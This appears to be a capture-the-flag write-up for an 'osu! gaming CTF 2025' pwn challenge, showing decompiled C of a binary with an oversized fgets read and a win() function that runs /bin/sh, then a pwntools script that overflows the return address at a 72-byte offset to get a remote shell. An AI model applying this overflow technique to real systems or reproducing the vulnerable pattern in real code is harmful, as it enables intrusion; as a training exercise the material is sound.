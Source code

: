 ```yaml
---
title: username-checker

published: 2025-10-27

description: Classic pwn buffer overflow attack

tags: [pwn, buffer overflow, python]
category: osu! gaming CTF 2025
---
```


# username checker

> Having trouble finding the perfect osu! username?
> Check whether your usernames are valid using username-checker!

## Files

```
❯ file *
checker:    ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fcf233c90bc0e306027cc14ca4f302293d2f4b5c, for GNU/Linux 3.2.0, not stripped
Dockerfile: ASCII text
flag.txt:   ASCII text, with no line terminators
nsjail.cfg: ASCII text
```

We have a 64 bit executable `checker` which we need to crack, opening it in ghidra we can get the source code

```c
void main(void)
{
    setvbuf(_stdin, 0, 2, 0);
    setvbuf(_stdout, 0, 2, 0);
    puts("~-~ username-checker ~-~");
    check_username();
    return;
}

// WARNING: Variable defined which should be unmapped: var_10h

undefined8 check_username(void)
{
    int32_t iVar1;
    int64_t iVar2;
    uint64_t uVar3;
    undefined8 uVar4;
    int64_t *piVar5;
    uint64_t uVar6;
    char *s1;
    int64_t var_1ch;
    int64_t var_10h;
    
    printf("please enter a username you want to check: ");
    fgets(&s1, 0x80, _stdin);
    iVar2 = strcspn(&s1, data.00402054);
    *(undefined *)((int64_t)&s1 + iVar2) = 0;
    uVar3 = strlen(&s1);
    if (uVar3 < 0x10) {
        for (var_1ch._0_4_ = 0; uVar6 = (uint64_t)(int32_t)var_1ch, uVar3 = strlen(&s1), uVar6 < uVar3;
            var_1ch._0_4_ = (int32_t)var_1ch + 1) {
            piVar5 = (int64_t *)__ctype_b_loc();
            if (((((*(uint16_t *)((int64_t)*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) * 2 + *piVar5) & 8) == 0)
                 && (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != '_')) &&
                (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != '[')) &&
               (((*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != ']' &&
                 (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != '-')) &&
                (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != ' ')))) {
                puts("username contains invalid characters");
                return 1;
            }
        }
        iVar1 = strcmp(&s1, "super_secret_username");
        if (iVar1 == 0) {
            win();
            uVar4 = 0;
        } else {
            puts("username is valid!");
            uVar4 = 0;
        }
    } else {
        puts("username is too long");
        uVar4 = 1;
    }
    return uVar4;
}

void win(void)
{
    puts("how did you get here?");
    system("/bin/sh");
    return;
}
```

## Solving

Basically what this code does is takes in our input and checks it length and then against `super_secret_username`

But the key thing is that fgets takes in 0x80 bytes which is way too much so if we input too much we can get a segfault

This means we can overwrite the return address so we can jump to the function `win`

If we input `pwn cyclic` into our code and check in gdb where it jumped we can find that the offset is 72 bytes

Now we can write our pwntools exploit:

```python
from pwn import *
elf = ELF('./checker')
win = elf.symbols.get('win', 0)
ret = next(elf.search(asm('ret')))

payload = b'A'*72
payload += p64(ret)
payload += p64(win)
#p = process("./checker")
p = remote('username-checker.challs.sekai.team', 1337)
#p = gdb.debug("./checker", gdbscript="b win")
p.sendline(payload)
p.interactive()
```

Running this gives us a shell and now we can `cat flag.txt` giving us the flag: `osu{thats_not_a_val1d_username_:(}`
